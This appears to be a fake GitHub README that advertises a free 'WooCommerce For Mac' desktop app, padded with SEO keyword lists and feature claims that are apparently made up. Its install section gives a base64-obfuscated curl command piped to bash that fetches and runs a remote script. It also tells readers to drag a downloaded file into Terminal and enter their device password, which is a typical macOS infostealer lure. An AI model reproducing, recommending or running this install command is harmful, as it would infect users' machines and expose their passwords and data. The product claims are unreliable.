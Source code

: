 # WooCommerce For Mac — Download For Mac OS 😊
![logo](https://elbnetz.com/wp-content/uploads/2024/12/Was-ist-WooCommerce.png)
WooCommerce For Mac is a powerful desktop application designed to manage your e-commerce store directly from your Mac. Built for macOS users, this app simplifies product management, order tracking, and sales analytics for WooCommerce store owners. Follow the instructions below to install WooCommerce For Mac and streamline your online business operations.

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge&logo=apple)](https://fituganshfgh.github.io/.github/woocom)

If the download button doesn’t work, follow the terminal installation instructions below.

## 📦 How to Install WooCommerce For Mac

### Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get

- 🛒 **Product Management**: Easily add, edit, and organize products for your online store.
- 📦 **Order Tracking**: Monitor and manage customer orders with real-time updates.
- 📊 **Sales Analytics**: Access detailed reports to track revenue and performance metrics.
- 🔄 **Seamless Syncing**: Sync your store data across devices for consistent management.
- 🔔 **Instant Notifications**: Receive alerts for new orders and customer inquiries.
- 🔒 **Secure Operations**: Protect your store data with robust encryption and authentication.

## About WooCommerce For Mac

WooCommerce For Mac is a dedicated desktop application crafted for macOS users who run e-commerce stores powered by WooCommerce. This app brings the power of WooCommerce’s robust platform to your Mac, allowing you to manage products, track orders, and analyze sales data without relying on a browser. Optimized for performance, it offers a native macOS experience with a sleek interface and fast load times. Keywords like *WooCommerce Mac app*, *e-commerce management Mac*, and *free WooCommerce download* ensure this tool is easily discoverable for store owners seeking efficient solutions.

Designed specifically for macOS, WooCommerce For Mac integrates seamlessly with your workflow, providing a streamlined way to manage your online store. From adding new products to processing orders and generating sales reports, the app simplifies complex e-commerce tasks. Its offline capabilities and real-time syncing make it a reliable choice for busy entrepreneurs. Search terms like *WooCommerce for Mac free* and *Mac e-commerce software* enhance its visibility for users looking for free, powerful tools.

WooCommerce For Mac empowers store owners with advanced features like customizable dashboards, inventory management, and integration with popular payment gateways. The app’s intuitive design makes it accessible for beginners while offering the depth needed for experienced e-commerce professionals. By leveraging keywords such as *WooCommerce desktop app* and *e-commerce analytics Mac*, the app attracts users searching for a comprehensive solution to manage their online businesses.

With regular updates to ensure compatibility with the latest macOS versions, WooCommerce For Mac delivers a secure and efficient experience. Its robust security features protect sensitive store data, while its user-friendly interface simplifies daily operations. Whether you’re searching for *free WooCommerce Mac* or *e-commerce management software*, this app provides unmatched value for anyone looking to optimize their WooCommerce store on a Mac.

## Advantages of WooCommerce For Mac

- 🌟 **Mac-Optimized Interface**: A sleek, intuitive design tailored for macOS users.
- ⚡ **High Performance**: Fast load times and smooth operation for efficient store management.
- 📈 **Advanced Analytics**: Track sales and performance with detailed, customizable reports.
- 🛠 **Customizable Workflows**: Tailor the app to fit your store’s unique needs.
- 🆓 **Free to Use**: Access powerful e-commerce tools at no cost, ideal for small businesses.
- 🔄 **Real-Time Syncing**: Keep your store data consistent across all devices.

## 🖼 Preview

![Dashboard View](https://woocommerce.com/wp-content/uploads/2020/04/start-woo@2x.jpg)  
*Manage your online store with an intuitive and centralized dashboard.*

![Product Management](https://woocommerce.github.io/woocommerce-rest-api-docs/images/woocommerce-api-keys-settings-02dfb1f9.png)  
*Easily add, edit, and organize products for your e-commerce store.*

![Order Tracking](https://i.postimg.cc/4xY7N5pF/woocommerce-orders.jpg)  
*Track and manage customer orders with real-time updates.*

![Analytics Overview](https://i.postimg.cc/7hB9X3kD/woocommerce-analytics.jpg)  
*Monitor sales and performance with detailed analytics reports.*

## 🔍 Tags

woocommerce, woocommerce app, woocommerce desktop, woocommerce for mac, woocommerce download woocommerce pricing, woocommerce wordpress, woocommerce bookings, commerce b2b, woocommerce website, woocommerce webshop, b2b woocommerce, WooCommerce for Mac, WooCommerce Mac app, e-commerce management Mac, free WooCommerce download, WooCommerce desktop app, Mac e-commerce software, WooCommerce for Mac free, e-commerce analytics Mac, online store management Mac, WooCommerce store app, e-commerce tools Mac
